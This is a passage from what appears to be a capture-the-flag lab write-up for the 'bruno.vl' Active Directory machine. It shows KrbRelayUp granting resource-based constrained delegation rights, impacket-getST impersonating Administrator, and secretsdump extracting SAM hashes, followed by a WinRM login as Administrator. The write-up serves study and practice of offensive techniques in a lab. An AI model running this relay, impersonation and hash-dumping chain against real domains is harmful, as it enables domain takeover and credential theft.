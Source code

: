 ```
[+] Forcing SYSTEM authentication
[+] Got Krb Auth from NT/SYSTEM. Relying to LDAP now...
[+] LDAP session established
[+] RBCD rights added successfully
[+] Run the spawn method for SYSTEM shell:
./KrbRelayUp.exe spawn -m rbcd -d bruno.vl -dc brunodc.bruno.vl -cn daz$ -cp Password123@
```

We'll then execute the command provided so that a TGT request can be sent to the KDC. This allows us to use `getST` after this command to retrieve a TGS on behalf of the Administrator account to CIFS using our fake machine account.

```
└─$ impacket-getST -spn cifs/brunodc.bruno.vl -impersonate Administrator -dc-ip 10.10.116.111 bruno.vl/'daz$':'Password123@'
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_brunodc.bruno.vl@BRUNO.VL.ccache
```

We'll then dump the secrets of the machine using `secretsdump`.

```
└─$ export KRB5CCNAME=Administrator@cifs_brunodc.bruno.vl@BRUNO.VL.ccache

└─$ impacket-secretsdump -k brunodc.bruno.vl                                                                       
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xf58ac639976f0c99c2dde0d24ef3219d
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
......
Administrator:500:aad3b435b51404eeaad3b435b51404ee:13735[...snip...]bfd4:::
```

Now that we have the Administrator's NT hash, we can use that to login to WinRM.

![](/images/vulnlab/bruno-vl/m.png)

Now that we are currently the Administrator, we can read the root flag within the Administrator's Desktop directory. That means we have successfully rooted this machine!

# Conclusion

This machine was very difficult, and it gave me some new insight on doing more RBCD exploitation. DLL Hijacking and reverse engineering are both topics that this machine covered well, and I have no complaints. Big thanks to xct for this machine.
